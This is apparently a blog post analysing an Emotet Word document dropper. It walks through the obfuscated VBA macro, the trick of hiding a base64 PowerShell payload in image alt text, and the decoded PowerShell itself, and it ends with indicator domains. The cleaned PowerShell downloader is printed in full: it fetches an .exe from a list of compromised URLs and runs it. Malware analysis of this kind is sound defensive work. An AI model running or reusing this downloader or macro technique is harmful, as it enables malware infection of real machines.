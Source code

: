  ---
title:  "Anatomy of an Emotet Word Document dropper"
layout: post
---

This blog post presents an analysis of the Visual Basic macro contained in a Word doc samples that drops Emotet malware.



## Intro

Sample hash is `a9fe73484674696be756808e93f839be7157cd65995d8de9e67e40bf77c9b229`

[Link](https://www.virustotal.com/gui/file/a9fe73484674696be756808e93f839be7157cd65995d8de9e67e40bf77c9b229/detection) to Virus Total

![VTDetection](../assets/pics/2020-10-31/VT_detection.png "VT detection")

## First step
Instead of using tools like `oledump` or `olevba`, I went straight into analysing the doc inside a Windows 10 virtual machine and Microsoft Office Pro 2016.

Once opened the documents states that it was created with an old version of Office and that because of that macros should be activated ¯\\_(ツ)_/¯

![Open](../assets/pics/2020-10-31/doc_preview.png "Preview")

Upon inspecting macros in VBA Dev tab, we can see that it's heavily obfuscated.

![Obf](../assets/pics/2020-10-31/code_obfuscated.png "Obfuscation")

Note the presence of `Document_Open` function. The macro is executed as soon as you click Allow Content. Once executed, you only see a Powershell window popping up for a fraction of a second.

## De-obfuscation

After spending some time reading through the code in Form `Ykd6l9_zi2__37zjve`, I noticed that most of the code is just garbage code designed to bloat the file, confuse AVs, annoy people, etc...

Especially, the following snippet is repeated all over the file and does nothing, it can be removed.

```vb
   CiXQnDJBd = "pwYjWjkWqMLGO"
awUlmLRhHwj = Mid(CiXQnDJBd, 6, 2)
iATYEK = awUlmLRhHwj
IhfXtbz = "5kzblYaszWGS6C8wP"
CqAXzOw = Mid(IhfXtbz, 7, 2)
qGwwHwGRWwc = CqAXzOw
FjzwaUEc = "lR4v8TckukXnjZzYVazU7N0zURNjRB5 GkTc"
PhdRzEcmb = Mid(FjzwaUEc, 34, 1)
TXGWj = PhdRzEcmb
GOJAhhJQ = "TtpYhM8PRobn1z"
TNiODEzMPti = Mid(GOJAhhJQ, 12, 1)
SuLoW = TNiODEzMPti
wMKCEhZ = "qbGkg4sfPK7aDcv wSI763KTZI9Ocw"
StoqvC = Mid(wMKCEhZ, 4, 2)
MVqFdiDrZl = StoqvC
mRHDhUz = "C86dCiz9L1aqWb TCzEKEPQk4jaWNz4asUJRcSb"
mMdPn = Mid(mRHDhUz, 14, 2)
hjFXDTC = mMdPn
SCEHz = " FwJGjE2jwuVqatGL6fjRm8OlpWpdK O"
NujiUqzEvvd = Mid(SCEHz, 9, 2)
bdpoDPnYFoW = NujiUqzEvvd
wiVhdXmuM = "2jRUXp8LDdPp"
hNdzoTao = Mid(wiVhdXmuM, 10, 1)
YinaPinc = hNdzoTao
tijOoKE = "uiUJHIsW0heVrJqZ2Av"
DFzquY = Mid(tijOoKE, 11, 1)
ZzRGXsD = DFzquY
ADKczCz = "PIwbFGdbpAK"
MrlWLsJVb = Mid(ADKczCz, 7, 1)
PbpdzBhVhEz = MrlWLsJVb
kcavkHimhnl = "wuERbzzKZ4eaz1jrjk5r4vsnmcEL5hZ"
jTnHazsDJNo = Mid(kcavkHimhnl, 11, 1)
FFXqSfthA = jTnHazsDJNo
```

The bad actors use and abuse the fact that if a variable is not declared in VBA, the variable is silently ignored. In the following snippet, `Kq3e6z7gdybg6` resolves to nothing. So `Df9kbnm9eaon3` is equal to 's' (`Q1zrtzyq6us9a` is `90`)
```powershell
Df9kbnm9eaon3 = Kq3e6z7gdybg6 + Chr$(Q1zrtzyq6us9a + (25))
```

Another interesting trick is presented below.
```vb
E_kbz3s_b5rg6n = "2vhaghsghf2vhaghsghfw2vhaghsghfi2vhaghsghfnm2vhaghsghf2vhaghsghfgm2vhaghsghft2vhaghsghf2vhaghsghf" + Df9kbnm9eaon3 + "2vhaghsghf2vhaghsghf:2vhaghsghfw2vhaghsghfin2vhaghsghf2vhaghsghf32vhaghsghf22vhaghsghf_2vhaghsghf" + Ykd6l9_zi2__37zjve.O2a2ey1hmvf + "2vhaghsghfro2vhaghsghf2vhaghsghfce2vhaghsghfs2vhaghsghfs2vhaghsghf"
```

`Ykd6l9_zi2__37zjve` reference the Form, and `O2a2ey1hmvf` reference the `ComboBox` inside the form. The box is set to letter `P`.

![cbox](./../assets/pics/2020-10-31/hidden_P.png "Hidden P")

Some elements inside `UserForm1` are useless, and some are used to retrieve parts of obfuscated strings, in order to rebuild then inside the code.

### Result
I am going to pass on describing to long and annoying process of de-obfuscating the code.

```vb
Function Entry()
    On Error Resume Next

    objString = "2vhaghsghf2vhaghsghfw2vhaghsghfi2vhaghsghfnm2vhaghsghf2vhaghsghfgm2vhaghsghft2vhaghsghf2vhaghsghf" + "s" + "2vhaghsghf2vhaghsghf:2vhaghsghfw2vhaghsghfin2vhaghsghf2vhaghsghf32vhaghsghf22vhaghsghf_2vhaghsghf" + "P" + "2vhaghsghfro2vhaghsghf2vhaghsghfce2vhaghsghfs2vhaghsghfs2vhaghsghf"
    objString_decoded = __DecodeObjString(objString)

    Set OLEObject = CreateObject(objString_decoded) ' --> winmgmts:win32_Process

    objString_decoded2 = objString_decoded + "tar" + "tu")
    objString_decoded3 = objString_decoded2 + "P" ' --> winmgmts:win32_ProcesstartuP

    Set Ydsu1vp_xnr8bd = _SetShowWindow(objString_decoded3)
    Jcsxtidm8cuwxfdg6n = Array(useless + "useless" + useless, useless, [OLEObject].Create(__DecodePowershell, useless, useless), useless + "useless")

End Function

Function _SetShowWindow(input)
    On Error Resume Next

    Set _SetShowWindow = CreateObject(input)
    [_SetShowWindow]. _
        showwindow = wdKeyEquals - wdKeyEquals

End Function

Function __DecodeObjString(input)
    On Error Resume Next

    tmpsplit = CleanString(input)
    ret = Split(tmpsplit, "2vhaghsghf")
    __DecodeObjStringtmp = [Join](ret, useless)
    __DecodeObjString = __DecodeObjStringtmp

End Function

Function __DecodePowershell()
    On Error Resume Next

    Set encodedPsPayload = CurrentDoc.InlineShapes.Item(1)
    __DecodePowershell = __DecodeObjString(encodedPsPayload.AlternativeText) ' Inside AltText when right click -> Picture

End Function
```

The strings are de-obfuscated by splitting them following the same pattern.
```vb
ret = Split(tmpsplit, "2vhaghsghf")
```

The final `powershell` payload is hidden inside the pictures presented to the user when opening the document, and is de-obfuscated by splitting the string with `2vhaghsghf`
![Payload](../assets/pics/2020-10-31/hidden_payload_AltText.png "Powershell Payload")


The final macro payload can be reduced to the following snippet.
```vb
Set OLEObject = CreateObject("winmgmts:win32_Process")
[OLEObject].Create(__DecodePowershell, null, null)
```

### _SetShowWindow
This function is supposed to set `_SetShowWindow` option of `winmgmts:win32_ProcesstartuP` to `0`, but it doesn't seem to work.

## Powershell
The `powershell` payload is `base64` encoded. Interestingly, before encoding to `base64` a `null` (\x00) char is placed between each characters of the powershell source code. The `base64` decode function of powershell, `[Text.Encoding]::Utf8.GetString([Convert]::FromBase64String($BASE64))` treats null char as **space**. So the actual decoded payload is a valid powershell source code.

```powershell
> [Text.Encoding]::Utf8.GetString([Convert]::FromBase64String("QQBB"))
> A B
```

```python
>>> decodedBytes = base64.urlsafe_b64decode("QQBB")
>>> str(decodedBytes, "utf-8")
'A\x00A'
```

Strings and function calls are obfuscated using different techniques. Powershell is not really case sensitive for function calls.

```powershell
[Net.ServicePointManager]::"sE`c`UrI`Ty`prot`ocOL" =(('tl'+'s')+('1'+'2,t')+'l'+('s1'+'1,tl')+s');

$Oht57tr=.('new-ob'+'j'+'et')nET.weBclIEnt;
```

### Decoded powershell payload

Decoded, de-obfuscated and cleaned.
```powershell
.('new-item')$eNv:uSErpROFile\PfnoyhG\w2lwD2_\ -itemtype DIREcTORy;

[Net.ServicePointManager]::"sEcUrITyprotocOL"='tls12,tls11,tls');

$Ra85g8d=$env:userprofile+(('BFPfnoyhglBFW2lwd2_lBF')."repLace"(([CHaR]108+[CHaR]66+[CHaR]70,[StrIng][CHaR]92))+'Pcy7xg6'+('.exe'));

$Oht57tr=.('new-objet')nET.weBclIEnt;

$U27o44j=(('https://blueyellowshop.com/wp-includes/mihae8A/*http://kingsalmanqurn.com/wp-content/wuPyeI/*https://dagranitegiare.com/wp-admin/Z21r6R/*http://acontarborreguitos.com/acontarborreguitos/I/*http://atenaclinicaesegurancadotrabalho.com/cgi-bin/NlMH/*http://digitalbazar.com/wp-admin/RVEzrK/*https://byc-center.com/wp-admin/Z4r/'))."sPlit"([char]42);

foreach($Hz7jbau in $U27o44j)
{
    try
        {
        $Oht57tr."DownLOA`DFILE"($Hz7jbau,$Ra85g8d);
        $X2iepix=('Fvoxr2g'));
        If((.('Get-Item')$Ra85g8d)."LeNGTh" -ge 20136)
            { 
                & ('Invoke-Item')($Ra85g8d);
                break;
            }
        } 
    catch{}
}

```

## IOCs

`blueyellowshop[.]com`   
`kingsalmanqurn[.]com`   
`dagranitegiare[.]com`   
`acontarborreguitos[.]com`   
`atenaclinicaesegurancadotrabalho[.]com`   
`digitalbazar[.]com`   
`byc-center[.]com`   













